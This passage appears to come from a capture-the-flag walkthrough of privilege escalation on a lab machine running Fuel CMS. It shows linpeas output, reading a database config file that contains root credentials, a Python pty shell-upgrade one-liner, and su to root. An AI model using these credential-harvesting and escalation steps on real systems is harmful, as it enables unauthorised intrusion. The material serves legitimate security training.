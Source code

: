 I also have tried to **run linpeas**:
```
$ ./linpeas.sh
.
.
.
╔══════════╣ Analyzing Backup Manager Files (limit 70)
                                                                                             
-rwxrwxrwx 1 root root 4646 Jul 26  2019 /var/www/html/fuel/application/config/database.php
|       ['password'] The password used to connect to the database
|       ['database'] The name of the database you want to connect to
        'password' => 'mememe',
        'database' => 'fuel_schema',
.
.
.
```

Try to **view the content** of the file:
```
$ cat /var/www/html/fuel/application/config/database.php
.
.
.
$db['default'] = array(
        'dsn'   => '',
        'hostname' => 'localhost',
        'username' => 'root',
        'password' => 'mememe',
        'database' => 'fuel_schema',
        'dbdriver' => 'mysqli',
        'dbprefix' => '',
        'pconnect' => FALSE,
        'db_debug' => (ENVIRONMENT !== 'production'),
        'cache_on' => FALSE,
        'cachedir' => '',
        'char_set' => 'utf8',
        'dbcollat' => 'utf8_general_ci',
        'swap_pre' => '',
        'encrypt' => FALSE,
        'compress' => FALSE,
        'stricton' => FALSE,
        'failover' => array(),
        'save_queries' => TRUE
);
.
.
.
```

Looks like we now have the **root credentials**, but before switching to root user, let's **spawn a better shell** first, then **change user to root**:
```
$ python3 -c 'import pty;pty.spawn("/bin/bash")'

www-data@ubuntu:/$ su -
su -
Password: <ROOT-PASSWORD>

root@ubuntu:~#
```
